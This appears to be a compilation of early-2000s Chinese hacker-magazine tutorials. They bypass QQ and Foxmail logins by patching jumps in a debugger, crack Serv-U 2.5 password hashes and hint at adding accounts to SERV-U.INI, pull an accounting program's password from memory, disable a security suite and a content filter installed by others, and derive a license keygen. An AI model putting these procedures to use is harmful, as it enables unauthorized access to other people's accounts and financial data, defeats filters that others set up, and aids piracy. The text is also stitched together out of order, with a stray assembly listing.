OK，我们就从这里下手。按 CTRL+N 激活 T2，设置断点：BPX HMEMCPY，按 F5 键，窗口回到 QQ 的对话框里，单击确定键拦截成功，清除断点：BC *；接着输入：PMODULE 来到 QQ2000B 的领空，按 F12 键 36 下（次数依个人的系统情况而定），弹出口令不正确的对话框。好，现在重复一次刚才的操作，只是在按 F12 键第 35 下时停下，按 F10 键步进程序，追踪到以下：

```text
016F:004AFECD  CALL  004A7305
016F:004AFED2  TEST  EAX,EAX
016F:004AFED4  JNZ   NEAR 004B0026  (NO JUMP)
```

好了，关键步骤就在这里了，修改 EIP 的值为 004B0026，继续大功告成！你看 QQ 是不是已经处于离线状态了？如果你还想要知道真正的登录密码的话，那就自己勤奋点好好找找吧！我可是找到了哟！

下面我们再拿 FOXMAIL 来试验一下，打开 FOXMAIL 4.2，单击已经设置访问口令的帐号，弹出口令框，如图 2 所示。

采用和上面基本上相同的操作。这里大家注意的是在登录框不要停留太久，它会在 30 秒后自动关闭；其实你只要输入一些东西就可以屏蔽掉这项功能了。在暴力破解 FOXMAIL 时我绕了个圈子，因为当运行到：

```text
016F:0053F273 CALL 004A6D20
016F:004A6D3A CALL 004A6C38
```

时分别出现了两个调用都会弹出密码错误的对话框，于是我就凭直觉追了进去，发现难以突破，于是重新试了一次。在密码框拦截成功后，输入 PMODULE，回到对话框按 F12 键几次，再按 F10 一次就可以看到如下：

```text
0167:0054CEAB TEST AL,AL
0167:0054CEAD JNZ 0054CEB2 (JUMP)
0167:0054CEAF MOV BYTE,[ESI],00
```

这其实就是下手的地方，修改 EIP 的值为 0054CEAF，继续 G，红色的锁定图标已被蓝色解开图标所取代，如果忘了密码那就趁现在赶快修改回来吧！

好了，通过上面的两个例子希望大家能对 TRW2000 有一个全新的认识，其实无论破解口令还是寻找注册码，其最根本的都是通过修改程序的运行结构或者察看运行时产生的数据来进行破解的，于是对于 TRW2000 的应用就可以从这个原理出发，只要是符合的都可以用它来进行相关的破解，因此它的应用便可以更加广泛了。（当然做这些应用还要遵守国家的相关法律）

boyhacker

## 一：什么是加壳以及加壳的作用

我们通常在汉化软件和修改软件的时候都需要脱壳。因为大部分的软件都是加壳的。加壳，其实就是给可执行文件加上个外衣。用户执行的只是这个外壳程序，也就是当你执行这个程序的时候，这个壳就会把原来的程序在内存中解开，解开后以后的工作就交给真正的程序了。所以，这些工作只是在内存中运行，而我们是无法知道程序具体是怎么样在内存中运行的。通常说的对外壳加密，都是指很多网上免费下载或者非免费的软件被一些专门的加壳程序加壳。大部分的程序加壳是为了防止反跟踪，防止程序被人跟踪调试，防止程序算法被别人静态分析。

## 二：如何知道是哪种软件加壳

我们可以借助软件。常用的软件有：Blast Wave 2000 v0.2.exe（D.boy 冲击波 2000）、FI.exe 和 typ.exe、FileInfo，它们通常可以很快而准确地找到是哪种加壳方式。比如：FI.exe 是利用通过加壳后程序即有的一段特征代码来验证。但是有的加壳使用了 SMC 技术，能让加壳后的程序改变，使得一般的查壳软件查找不出来。但是这并不常见，技术实现起来有些难度。

## 三：几个压缩加壳软件和它们的特点

- 1. Upx，高性能压缩工具，内置压缩和解压缩功能。最新的版本是 UPX 1.21。比如：国内鼎鼎大名的流光 4.5 用其加壳。Upx 的解压缩命令：`Upx -d`，你也可以用 UPX 1.2 中文版的图形界面。一个 OK 键就把流光 4.5 的壳脱掉，很简单。
- 2. Telock，功能包括防 SoftICE 检测、重建覆盖、reloc 区段、ITA 重定位等。一般我们可以直接用工具脱掉。比如：流光 4.7 用 Telock 0.42 加的壳，我们可以直接用 teunlock.exe 脱掉，而且不需要重建资源表。
- 3. PECompact 压缩，它没有内置解压缩。这种压缩安全性较高，一般不容易脱。简单的我们可以 RES 重建相容资源，用 PEditor 1.7 选择 rebuild Import Table 点 OK 即可。
- 4. Aspack 压缩，具有高效保护性的压缩，不内置解压缩。可以用 aspackdie 1.3c，支持 Aspack 从 2.11 到 2.12，或者 CASPR v1.10 脱壳。
- 5. Petite 压缩，具有高效保护性的压缩，不内置解压缩。可以用 PTCLIENT 这个软件简单地脱壳。

## 四：手工脱壳常用到的几个软件

- 1. SoftICE：SoftICE 是一种功能强大的调试软件，支持 Win9x/Me/NT/2K/XP。
- 2. TRW 2000：Windows 9x 与 Windows Me 下的跟踪调试程序，跟踪功能更强。
- 3. OllyDbg：一个新的动态追踪工具。（可以看看说明文件）
- 4. ProcDump：可以除去各种各样的壳，同时也是一款优秀的 PE 格式修改工具。

## 五：举一个完整的手工脱壳的示例

脱掉由 tElock 0.98 压缩过的软件的壳。我们把 Resource Hacker（功能相当强大的反编译软件）用 Telock v0.98 压缩。脱壳需要工具：TRW2000、Procdump、Bw2000.exe。

- 1. 运行 Bw2000.exe，单击 BW2000 中的 Track，然后运行 Telock 0.98 压缩的 Resource Hacker。这时候就可以在 BW2000 中看到加壳入口 004AB1FC；
- 2. 运行 trw2000，导入 Resource Hacker；
- 3. 在 TRW2000 中下命令 `g 004AB1FC`；
- 4. 在 TRW2000 中下命令 `suspend`；
- 5. 运行 Procdump.exe，你可以在窗口里看到 Resource Hacker，然后选中它；
- 6. 存盘并 Dump，保存 Resource Hacker；
- 7. 运行 RES，载入刚由 Procdump 脱壳后保存的文件，然后选择工具中的压缩读出，读出完成后，再选择工具中的重建相容资源。
- 8. 经过本人测试通过，脱壳成功。

## FTP SERV-U 2.5 密码的本地破解

SERV-U 这个 FTP 服务器软件大家都知道吧！（图 1 SERV-U 主界面）它以强大的功能，简单的设定，赢得了很多人的喜爱。特别是一些以 WINDOWS 系列作为操作系统的服务器，都采用 SERV-U 作为 FTP 服务器软件。可是有时候我们想要知道 SERV-U 里面加密的用户密码，如何做到呢？

SERV-U 的密码都加密储存在 SERV-U 安装目录的 SERV-U.INI 这个文件里，这个文件一般位于 `C:\Program Files\Serv-U\SERV-U.INI`，我们先看看它的内容：

```ini
[GLOBAL] 记录着你的设置信息
TryOut=Full
Version=2.5.11.3
Logging=ON
IPLog=0
AutoStart=NO
[USER=*=Default]  SERV-U 的一个默认帐号，没有用户设置
TimeOut=45
[SIGNONOFF]
MessageFile1=...welcome...
[USER=nuke]  这就是你要破解的用户信息
Password=fghN.nrFVQtck   ; DES 加密过的密码
HomeDir=d:\wwwroot      ; 用户的起始目录
Access1=d:\wwwroot,RWAMCDP ; 用户的所有目录和权限
```

注意到了没有，用户加密的密码采用了和 UNIX 一样的加密方式，我们可以把它做成 UNIX 密码的格式，再用现成的 UNIX 密码破解器来跑，这样的软件很多，用 JOHN、乱刀都可以。

我们再来看看 UNIX 密码加密的格式：

```text
root:fghN.nrFVQtck:0:1:root:/root:/bin/bash
nuke        用户名
fghN.nrFVQtck   DES 加密过的密码
0           用户 ID
1           组 ID
nuke        用户全名
/home/nuke  home 路径
/bin/bash   shell
```

看懂了吧！我们只要参照这个格式，稍微变动，把 SERV-U.INI 中的用户名、密码转换成 UNIX 格式：`nuke:fghN.nrFVQtck:0:1:nuke:/home/nuke:/bin/bash`。

主要是用户名和密码，你自己要一一对应，后面的部分都不重要，只要是合法的就行了。然后做成文件，保存下来。如果要转换的用户太多，你可以自己编一个小程序来帮你完成，很简单。

破解密码软件建议用乱刀，它用图形界面操作，使用比较简单。只是用在 9x 下 BUG 比较多，经常非法操作。如果小榕能再做一下改进，学习一下 LC3 的智能破解和分布式任务，就更好了。

启动乱刀。开始→打开密码文件→选中你刚才转换并保存的密码文件。如图 2 所示：

怪了，乱刀怎么提示不是一个合法的 UNIX 文件，如图 3 所示。

原来在乱刀中认为一个合法的 UNIX 文件必须有 root，怪怪的，那就满足它。在我们的文件里添上一行：`root:x:0:0:root:/root:/bin/bash`

再来，在选择用户里面，把你要破解的用户添加到破解列表里。如图 4 所示。如果还提示有问题，就要检查一下你自己做的密码文件是不是多了空格，文件最后是否多了个回车。记住，一定要和 UNIX 文件的格式一样。

至于破解的技巧，具体的软件使用，不在我们讨论的范围里，建议你看看乱刀的帮助，很不错的教学帮助。

至于成功率……我只能说，要看你的运气和字典的好坏，还要有耐心！没错，就是你的耐心，几天几夜，也可能几个星期。UNIX 的有效密码最多 8 位，SERV-U 也一样，只要你有耐心，字典不行，就来个方案破解。

由于上面所说的 SERV-U.INI 的问题，是利用一些常见漏洞，比如 UNICODE、ENCODE、filesystemobject 组件（ASP）都能访问到 SERV-U.INI。

在 WINDOWS 系列的安全机制里，USER 权限的用户有对 Program Files 目录的读权限，这个问题的严重性就好像 UNIX 里面的 user 能访问到 shadow。要防止这个问题，你可以拒绝 USER 对这个目录的访问，只允许 SYSTEM 和 administrator 拥有对这个目录的访问权限。这样，起码可以防止目前或者未来入侵者获得 SYSTEM 以下权限时对 SERV-U 的威胁。

不要光停留在如何破解 SERV-U.INI 以前用户的密码上，你也可以考虑向里面加……（呵呵，这句才是经典）

**注意：**这是 SERV-U 2.5 的情况，SERV-U 3.0 以上采用了不同的加密机制，不能用上面所说的方法来破解。

```text
0167:004ED78F CALL 004B52DC
0167:004ED794 MOV DWORD PTR [EBP-04],FFFFFFFF
0167:004ED79B MOV EAX,[EBP-08]
0167:004ED79E CALL 00452F00
0167:004ED7A3 JMP 004ED839
0167:004ED7A8 TEST ESI,ESI
0167:004ED7AA JNZ 004ED7CD
0167:004ED7AC PUSH 00
0167:004ED7AE PUSH 00
0167:004ED7B0 LEA EAX,[EBP-5C]
0167:004ED7B3 PUSH EAX
0167:004ED7B4 MOV ECX,004ED90C
0167:004ED7B9 MOV EDX,004ED94C
0167:004ED7BE MOV EAX,004ED938
0167:004ED7C3 CALL 004B52DC
0167:004ED7C8 JMP 004ED5A4
0167:004ED7CD PUSH 00
0167:004ED7CF PUSH 00
0167:004ED7D1 LEA EAX,[EBP-5C]
```

tcryg82

“管家婆”一款小有名气的财务软件，现在好多中小型公司都在使用它。我们都知道，财务数据的安全性和保密性是很重要的，否则被人进入财务室偷看到这些资料，那么还有什么保密性可言呢！针对这个问题，我们来看看“管家婆”是如何确保口令安全性的。

准备好我们的必备工具：SoftIce

以下是破解过程：

- 1. 打开管家婆，选择一个用户，输入密码（这里随便输入：121212）。如图所示：

密码输入错误提示。

- 2. Ctrl + D 唤出我们的神兵利器：SoftIce
- 3. 用 BPX hmemcpy 下断点，然后 g
- 4. 连续按 F12 按 12 下（因为按 13 下就完蛋了）
- 5. 然后按 F10 进行单步跟踪，追下去……直到：

```text
0167:004B5355 Call ...
0167:004ED7CB Jmp 004ED5A4
```

出现密码错误的提示，所以问题一定在上面，重新追踪：

- 6. 还是连续按 F12 按 12 下，然后按 F10 来到如下地方：

`0167:004ED7B3 PUSH EAX`

到此就可以显示出用户口令，赶快拿笔记下来，看来过几天我就可以做财务主管了！

**注：**“管家婆”的口令安全机制我实在不敢恭维，希望它能够在以后的版本中能够有所改进！

“管家婆 7.0”专业版只允许用户设置最多 8 位的密码。

> 在 Windows 2000 中更改启用时 NumLock 的状态

即使你在 BIOS 中将 NumLock 设成 enable，在使用者登录 Windows 2000 系统后，NumLock 就呈现 Disable 状态了。原因是 Windows 2000 把 NumLock 设成非启动状态。若要让 Windows 2000 的 NumLock 是打开的话，在注册表中修改：

`HKEY_Current_User\ControlPanel\Keyboard\InitialKeyboardIndicators`

在类型 REG_SZ 中，将值改成 2，NumLock 会被打开，并且以后都将保留关机前最后一个使用者使用的功能。

# 冰盾破解器

19821119

前段时间不知不觉我的电脑被朋友安装了“冰盾系统安全专家”，无论我如何操作，重新启动都会恢复，所以打算花费一点时间破解冰盾。马上去 163 寻找“冰盾系统安全专家”钻石版下载，等夜深人静的时候进行 Crack。其实安全软件一定要安全，才能说是安全软件。


点击“设置密码”将密码设定为 19821118，然后再输入一次，点确定，如图 4 所示。

> 图4

对付“验证密码”我们可以用 WinHex 进行解密。重新开启冰盾软件包，会要求你输入密码进行认证，你可以随便输入一组密码，如“20000315”（记住它），然后按确定。系统会弹出对话框“您的密码有误”，到这里不要点“确定”。

马上打开 WinHex，然后选择打开 RAM，选择 freezing 进程，点击整个内存，如图 5 所示：


> 图5

打开内存之后点击“查找”，在对话框里输入你刚才输入的密码“20000315”，如图 6 所示：


> 图6

按确定之后会查找到系统设置的密码，如图 7 所示。然后通过这个密码就可以进入冰盾软件包。


> 图7

## 所需工具

- 冰盾系统安全专家钻石版：下载地址 http://www.hnjc.com.cn/softdown/win/Bingdun-20.zip
- WinHex：这个工具很不错，下载地址 http://www.piaoye.net/images/1170/winhex.zip
- 网吧幽灵：下载地址 http://www.ttian.net/download/show.php?id=535&down=1

## 一、冰盾组件部分

运行冰盾安全专家，在界面上可以看到六个功能按钮：冰盾主程序、病毒预警器、硬盘保护器、系统保护器、窗口滤镜、退出主界面，如图 1 所示：


> 图1

这五种小工具可以在冰盾安装目录中寻找到，默认路径为：C:\Program Files\Freezing Point Studio，如图 2 所示：


> 图2

开始破解啦！

## 二、冰盾软件包验证密码的破解

1、冰盾软件包的功能大部分都是针对注册表进行操作，有密码保护，查看密码是否安全等等，如图 3 所示：


> 图3

冰盾软件包密码认证存在明文密码漏洞，希望作者能够更正此漏洞。

## 三、冰盾系统保护器的破解

冰盾系统保护器的功能跟还原卡一样，不允许用户删除文件，没有密码保护功能。我们在破解之前首先选定所有保护选项之后点击“应用设置”，提示需要重新启动，重新启动计算机并没有发现进程，这时利用 DLL 启动，并马上在注册表中查找相关启动项。如图 8 所示，发现启动项。


其启动项为 sysprotect.dll，如果系统保护器正在运行状态，你只需要改动启动键值，然后重新启动。这时所有保护都不会生效，删除的文件也不会再恢复了。更改键值重启后也可以将 sysprotect.dll 这个 DLL 删除。

## 四、冰盾窗口滤镜的破解

冰盾窗口滤镜的功能主要是过滤一些窗口。它有密码保护，现在让我们来看看能不能破解保护。

窗口滤镜进程名为 ProSniffer.exe，最简单的方法是结束进程，也不用输入密码达到终止进程目的，如图 9 所示。


如果你需要破解管理密码就用以下方法：点击右下角小图标，出现如图 10 所示界面。

你不需要输入任何密码，也不用按确定，这时候你只需打开 WinHex.EXE，然后点击打开 RAM，选择 ProSniffer，点击主内存，如图 11 所示。


打开主内存之后，点击菜单“位置”->“位置管理器”，弹出对话框，请新建一个 Offset 地址“12F752”，然后点击“现在搜寻”，即可找到 Offset 地址，如图 12 所示。


找到 Offset 地址之后，你就可以发现明文密码啦！如图 13 所示。


很简单就可以结束冰盾窗口滤镜及权限密码。希望这个漏洞在下个版本中更正。

冰盾窗口滤镜有几种版本，版本不同明文密码地址也不同，大家试试一定可以找到明文密码，如图 14 所示。


图14


图15

## 五、改“硬盘保护器”的破解

冰盾保护器的功能主要是针对 Win9x or Me 环境下使用，此工具还不够成熟，很难让使用者适应。运行硬盘保护器之后会不允许新建任何文件，而且很多软件都不能够正常运行。

冰盾硬盘保护器进程名为 diskprocet.exe，你只需要用“网吧幽灵”终止进程即可，如图 15 所示。

> 注意：当你终止冰盾硬盘保护器，你就可以重新建立文件啦！好了，“冰盾系统安全专家”的五个主要功能就这样被我破解了，大家可以因此练习一下！

# 如何结束护花使者进程

19821119

护花使者这款反黄软件的确不错，拥有很多功能，可以说是国产反黄精品。作者对护花使者的安全性进行研究，发现了一处终止进程漏洞，写出来和大家一起分享。

## 一、安装护花使者

安装护花使者完成后，会在系统安装目录下产生以下文件，并不是我们所选择的安装路径，如图 1 所示：


图1

## 二、轻松破解

- 1. 杀护花使者之前一定要了解软件的结构。首先结束护花使者进程 iflower.exe，终止后发现又会自动运行，也就是护花使者意外终止进程会自动运行。
- 2. 不能从终止进程下手，那我们从动态链接库 DLL 文件下手。我尝试着删除 MFT_IF.dll 文件，但不成功，因为文件正在运行。突然想起将 iflower.exe 可执行文件移到我的桌面，然后再将 iflower.exe 进程结束，发现护花使者已经不再自动运行啦！因为我把 iflower.exe 移到我的桌面上了。
- 3. 手动破解护花使者方法，你只需要将 iflower.exe 文件名更改名称，然后再结束进程即可完成。
- 4. 如果你感觉手工破解比较麻烦，你也可以用我写的“网吧幽灵”来结束护花使者。我测试成功的版本“网吧幽灵黑客 X 档案珍藏版”（收藏于光盘“杂志相关”栏目中），运行界面如图 2 所示。


图2

## 三、自动保护技术

很多过滤、保护软件都有致命死穴，用 Ctrl+Alt+Del 或第 3 方任务管理器都可轻易杀掉，而护花使者 2.0 率先研制出进程隐身保护和自动复活技术。在 Windows 9X/2K 系统中，即使关闭护花使者的进程，它同样也能自动复活。

不过，虽然护花使者有这些良好的恢复进程手段，却忽略了笔者提到的这一漏洞，我建议的解决方案是：只须将 iflower.exe 文件不允许更改文件名就可以解决这个 BUG。因为那个进程在使用时可以更改文件名称。

# 问题光盘隐藏文件的破解

今天买了一套《柯南》，号称是第二部的，确实很爽，136 集到 220 多集，而且还附送了五集电影版和 MTV 原声 CD 等，爽死了！

不过……这套盘是加密的（因为是 D 版），很多读者都知道把光盘放进光驱后它会自动读盘，然后出现如图 1 所示界面。


如果不选择自动读盘而自己去打开光盘的话，看到的并不是那些 RM 文件，而是一堆图片，或是其它别的东西，总之就是看不到你想看到的东西，是否大家都遇到过这种情况呢？

既然是自动读盘，也无所谓，能看就行了。但是呢……故事发生在我把光盘拿到另一台机器上去看，却没得到预想中的效果，虽然光盘自动读取了，然而读出来的却是一堆图片，并没把那些隐藏的动画读出来。不行！要找到它……

经过我的一番严密观察，我终于注意到：在我自己的电脑上运行时出现了如图 1 的界面后点击“浏览 CD”，它会弹出如图 2 所示的一个“浏览‘我的电脑’”的界面。哦，这可真有意思！大家注意到没有，这里并没有路径，看来是隐藏了，不过不要紧，这毕竟只是表面的现象嘛！


打开 CMD（98 下打开 MS-DOS），我用鼠标左键拖拽 autorun.exe 这个文件（其它文件也可以）到 CMD 的窗口里，这样一来……

啊啊，看到路径了吗？如图 3 所示。


这里路径显示为 H:\TOOLS\_SYS1.HDR，按照这个路径找到这个 SYS1.HDR 文件，如图 4 所示。


但是不能直接打开它，看起来很有可能是个映射文件（映射到一个隐藏的文件夹里），不过到这里已经足够了，我们没有必要再深究下去了。

把光盘拿到不能正确读取该盘的那台机器上，打开 CMD，用“cd”命令进入光盘的 TOOLS\_SYS1.HDR 这个隐藏目录，然后用“dir”命令查看有哪些文件，再用相应的播放器打开查找到的可播放文件就可以了。

如果大家有兴趣的话，可以找一些类似原理的光盘，再用一些强悍的编辑器打开隐藏在加密光盘里的类似 _SYS1.HDR 的文件，更深一步研究研究，啊啊，我嘛，太菜，所以只能写到这儿了！

## 神鸦共享很容易——GetPassword 解密实战

龙剑客

GetPassword 是用来查看星号中是什么内容的工具软件，也就是大家常说的查看密码的软件。该软件是共享软件，必须注册才能使用其全部功能，所以我们要想办法“解攻”它。该软件没有加壳，暴力破解非常简单，只要用 W32Dasm 分析一下就可找到。但暴力破解很没有意思，不够刺激，所以我们还是自己动手找出其注册码为好。

> **软件介绍**
>
> 使用时，请在窗体客户区的任意位置点击鼠标左键一次来唤出菜单，选择其中某一项即可。该软件适用于 Win95/98 平台。程序运行起来后，用鼠标操作，按住不放，光标指到某些有密码框位置，则 Password 编辑框中会显示密码。它的下载地址为：http://download.online.tj.cn/download/10565GetPassword.zip，文件大小 376KB。

首先拿出我们要用到的“兵器”——TRW2000（通过前几期的学习，相信大家对它的使用已经非常熟练了）。TRW2000 有两组热键，分别代表不同的特权级别，所谓特权级别就是程序在执行中有级别之分，只有操作系统工作在最高级——0 级中，其它的程序都应工作在 3 级中。在 3 级中的程序不可以直接访问 I/O 端口，也无法访问其它程序运行的内存，连同程序自己的代码段写入数据都是非法的（会出现你熟悉的蓝屏），只有对工作在 0 级上的程序来说系统才是全开放的。所以 TRW2000 为我们准备了两种不同特权级别的热键：按 Ctrl+N 为 3 级，按 Ctrl+M 为 0 级。可以在不同的情况下使用，像我们今天跟踪的这个程序使用 3 级就可以了。

TRW2000 的主界面由五部分组成，如图 1 所示。窗口中最上面的是存储器／寄存器窗，用来显示各存储器／寄存器的当前值；在存储器／寄存器窗下面的窗口是数据窗口，是用来显示存储器内容的；在数据窗左边的左面也就是由“:”分开的两个值对应为“段地址：偏移地址”；屏幕中间为“段地址：偏移地址”所存储的 16 进制值，在右面是那些 16 进制值所对应的 ASCII 码；数据窗下面是代码窗，也就是程序，高亮显示的那一行是机器将要（注意：是将要）处理的下一条指令；在代码窗右上角的是堆栈窗，所谓堆栈就是一段以先进后出为工作方式的存储器（内存），它显示的是堆栈的偏移地址和内容；在代码窗的下面是指令窗，在这里你可以对 TRW2000 下达你的指令，我们用来下断点的命令就是在此输入的。


TRW2000 所有窗口的默认颜色是黑底蓝字，在白天不易看清，所以你可以下指令 VER BLUE 来改变它的颜色，如果你想让它每次启动时都改变，你可以打开 TRW2000 安装目录下的 TRW2000.INI 文件，把 INIT="lines 35;wr 3;wd 8;wc 16;code on;" 改成 INIT="lines 35;wr 3;wd 8;wc 16;code on;ver blue"，也就是把 VER BLUE 加在里面。好了，现在运行 TRW2000，出现如图 2 所示窗口，点击“Browse”按钮找到 GetPassword，然后点击“Load”将其加载到 TRW2000 中。


OK，我们可以通过同时按 Ctrl+N 呼出 TRW2000，然后输入：bpx getwindowtexta 来下断点，按 F5 键，会返回到 GetPassword 中，此时出现注册码窗口，填入大名“MAOMAO”，注册码“7654321”，按 OK 后中断下来，输入“BD *”命令来关闭所有断点。

为什么要这么做呢？因为只要我们不清除这断点或不退出 TRW2000，该中断命令就会一直存在，会导致只要条件相同就中断，这样非常烦人。那为什么用“BD *”命令呢？这是因为“BD *”仅仅是暂时停止中断命令，可通过“BE *”等命令恢复断点，以备不时之需。在 TRW2000 中还有一个“BC *”命令，该命令为永久删除所有断点，要再下同样的断点必须重新输入，很麻烦，所以一般情况下我们用“BD *”命令而不用“BC *”。

现在，再输入 TRW2000 特有的“pmodule”（不含引号）指令，返回到程序的“领空”。解释一下，pmodule 是 TRW2000 特有的指令，用该命令可以快速返回到当前程序的“领空”。

> **提示**
>
> 所谓“领空”就是一块在当前时刻，CPU 的 CS:IP（即程序计数器）所指的代码段的所有所在的区域。也就是 TRW2000 停下来时光标（高亮显示那一行）所在的那一句代码是属于哪个程序的，属于 GetPassword EXE 的就叫 GetPassword 的“领空”，属于 KERNEL 的就叫 KERNEL 的“领空”。你如果想观察 GetPassword.EXE 的代码，就要在 GetPassword EXE 的“领空”中进行跟踪。

好了，此时我们会来到这里：

```text
0177:00415FE7 CALL USER32!GetMessageA
0177:00415FED TEST EAX,EAX
0177:00415FEF JZ 00416017
0177:00415FF1 CMP DWORD PTR [ESI+34],036A
0177:00415FF8 JZ 00416014
0177:00415FFA MOV EAX,[ESI]
0177:00415FFC PUSH EDI
```

现在输入 P 命令，开始 P 了。什么是“P”呀？

> **提示**
>
> “P”是 TRW2000 中的又一个命令，就是单步执行程序的意思。每执行一条指令就停下来。P 命令有一个快捷键：F10 键，因此我们就不用直接输入 P，只要按 F10 键就可以了。

在按 F10 的过程中，你可以看到寄存器窗中不时地有高亮显示，那是因为寄存器的值发生了改变，所以就被高亮显示了。在大家以后的解密过程中要好好地利用这一点，因为好多软件的注册码就是在这里发生变化的，只要用“D 寄存器”（D 空格寄存器）命令就有可能看到软件的注册码（如果是明文比较的话）！

好了，命令解释完毕，让我们按住 F10 键，经过一段读姓名并转换输入的注册码的程序后，来到这里：

```text
0177:0040523B MOV EBP,[ESP+24]  <== 在这里输入 D EBP，命令可以看到你输入的用户名后面被加上字符串“whm_w”，变成了“maomaowhm_w”（注意是小写）；
0177:0040523F XOR EDX,EDX
0177:00405241 MOV DL,[EAX+EBP]  <== 取第1个字母
0177:00405244 MOV EBP,[ESP+18]
0177:00405248 ADD EBP,EDX      <== 和上一句完成累加
0177:0040524A INC EAX          <== 计数器加1
0177:0040524B CMP EAX,ECX      <== ECX 为字符串个数
0177:0040524D MOV [ESP+18],EBP <== 保存这一次累加结果
0177:00405251 JC 0040523B      <== 没结束则取下一个字符
```

通过这样的转换，你的用户名就被小写后加上后缀“whm_w”，并将所有的字母累加。继续按 F10 键，程序在这里取你输入的注册码进行计算：

```text
0177:00407A0B CMP DWORD [004254DC],BYTE +0i  <== 这里 D EDI 可看到被破解后前几位的假注册码 76543
0177:00407A12 JNG 00407A20                   <== 如果不大于则跳转到 00407A20
0177:00407A14 PUSH BYTE +04
0177:00407A16 PUSH ESI                       <== ESI 入栈
0177:00407A17 CALL 0040AA9C
0177:00407A1C POP ECX                        <== ECX 弹出堆栈
0177:00407A1D POP ECX                        <== ECX 弹出堆栈
0177:00407A1E JMP SHORT 00407A2B
0177:00407A20 MOV EAX,[004252D0]
0177:00407A25 MOV AL,[EAX+ESI*2]
0177:00407A28 AND EAX,BYTE +04
0177:00407A2B TEST EAX,EAX
0177:00407A2D JZ 00407A3C
0177:00407A2F LEA EAX,[EBX+EBX*4]           <== 核心
0177:00407A32 LEA EBX,[ESI+EAX*2-30]        <== 核心，完成向十进制的转化
0177:00407A36 MOVZX ESI,BYTE [EDI]
0177:00407A39 INC EDI
0177:00407A3A JMP SHORT 00407A0B
0177:00407A3C CMP EBP,BYTE +2D
0177:00407A3F MOV EAX,EBX                   <== 转化后的结果放入 EAX
0177:00407A41 JNZ 00407A45
0177:00407A43 NEG EAX
0177:00407A45 POP EDI
0177:00407A46 POP ESI
0177:00407A47 POP EBP
0177:00407A48 POP EBX
0177:00407A49 RET
```

接着，程序又取剩下的 2 位注册码，再进入上面这段程序，转化成十进制。然后就来到这里进行比较：

```text
0177:004052AC MOV ECX,[ESP+28]  <== 后两位注册码的十进制值
0177:004052B0 MOV EAX,[ESP+18]  <== 前几位注册码的十进制值
0177:004052B4 XOR EBP,ECX       <== EBP 和 ECX 作异或运算，结果放入 EBP
0177:004052B6 CMP EAX,EBP       <== EBP 再与姓名累加的值(EAX)进行比较
0177:004052B8 JNZ NEAR 004053D1 <== 不相等就跳走，这就会 OVER 了，所以不能让它跳走。
0177:004052BE CMP EDI,BYTE +01
0177:004052C1 JC NEAR 004053D1
0177:004052C7 CMP EBX,BYTE +01
0177:004052CA JC NEAR 004053D1
```

- 1. 将姓名小写并加上后缀“whm_w”，计算各字母的累加值；
- 2. 将输入的注册码去掉后两位后转成十进制；
- 3. 将输入的注册码的后两位转化成十进制；
- 4. 将第 2 步与第 3 步的结果异或；
- 5. 用注册码计算过程 1 的结果与 4 的结果进行比较，相等则注册成功。

由于 GetPassword 2.3 在计算注册码过程中没有使用明码比较方式，所以无法直接找到注册码。但第 4 步异或操作可以看出，只要后两位的注册码为 00，那么第 4 步的结果一定是第 2 步的结果；也就是说，你的注册码就可以这样生成：用你的小写姓名 + “whm_w”并计算各字母的累加值，并在这个值的后面加上两个 0，就可以得到你的注册码了。如输入姓名“maomao”，“maomaowhm_w”的计算结果为 1180，则注册码为 118000。

是不是很简单呀？大家快来试试，体验一下自己破解软件的快乐！


# 解密专家

— Password Recovery


最近刚刚安装了 Office XP，觉得还蛮好用的。大概是破解方面的书看得太多了，出于一种习惯，决定要试试它的安全性怎么样，于是便翻箱倒柜找出了一款极为经典的解密软件——Password Recovery 4.0。

首先按照安装向导的提示安装好该软件（安装的时候竟然要注册码，岂有此理！拿出 TRW2000。“这样也好，可以让我好好复习练习解密……”），有兴趣的朋友可以自己动手破解，具体过程可以参考前几期的《黑客X档案》，这里我就不赘述了。安装好之后，点击程序菜单中的“Passware”可以看到如图1所示的列表。

上面列出了所有它能够破解的软件，有 25 项之多，真是厉害哦！接着我们就拿一个 Word 的文档作为例子看它究竟灵光如何。首先，我们创建一个 Word 文档，并在选项中设置其访问密码为：95279527，共八位，然后存盘退出。如图2所示。


接着在图1中打开“Word Key”，界面如图3所示。


点击“More”中的“Settings”，它有五项属性设置面板，设置好这些属性对于快速破解密码是很有帮助的。在“General”面板的“Attack types”中可以设置猜解的方式，有以下三种：

- Dictionary：使用字典；
- Brute-force：暴力猜解；
- Brute-force with xieve optimization：加速优化破解；

在“Process priority”中设置处理器的优先级，优先级越高，猜解速度就越快，同时占用的系统资源也就越多。这里我们只选择“Brute-force”就可以了，如图4所示。


在“Symbol set”面板中设置猜解过程中所要使用的符号，如图5所示。


这里的设置有一定的技巧，我们可以先单独选中其中的一项进行猜解，如果对方设置的密码是纯数字，或者纯字母，这样的猜解方式速度会快很多，而且你可以因此对密码的范围进行一步一步地缩小，从而能够更有效地进行猜解。因为只是测试，所以我们在这里仅选定“Digits”（数字）。

好了，一切设置妥当之后，把刚才创建的加密 Word 文档用鼠标拖拽到程序窗口中即可，后面的事情就是祈祷和等待了。如图6、图7所示。


最后结果出来的时候，总共耗时 12 分钟 41 秒。我测试的环境是赛扬 800，内存 256MB。而且这个过程中我在用 Winamp 3.0 听燕姿的《Hey Jude》，所以实际速度可能会因此有所减慢，但一个八位的密码用 12 分钟猜解出来的成绩还是蛮不错的。如图8所示。


这款软件除了能对 Word 进行猜解外，还可以对诸如 Access、Excel 等等进行猜解，可谓功能强大，不愧为解密专家之称。如果你有足够耐心的话，破解一个复杂的密码也是有可能的。当然，从相反的一个方面讲，如果你想保护你的文档不被非授权访问的话，就请把密码设置得足够复杂，尽可能地使用些符号，这样就会延长密码猜解所需要的时间，从而使解密者最终失去耐心而放弃（做个 Cracker 要有耐心，等个两三天很正常的），像什么 12345、china、pass 的密码你就把它们当装饰好了……

# 浅谈计算机密码学

银蜥蜴

密码学（Cryptology）一词来源于希腊字根“隐藏”（Kryptós）及“信息”（lógos）组合而成，泛指所有有关研究秘密通信的学问，其中包括如何达到秘密通信和破解秘密。

密码学可分为以下两个领域：

- **密码编码学（Cryptography）**：指如何达到信息的秘密性、鉴别性的科学。
- **密码分析学（Cryptanalysis）**：泛指如何破解密码系统，或伪造信息使密码系统误以为真的科学。

一个密码系统的主角有 3 个人，即发送方、接受方与破译者，典型的密码系统如下图所示：


一般而言，密码系统依其应用可对信息提供下列功能：

- **秘密性（Secrecy or Privacy）**：防止非法的接受者发现明文。
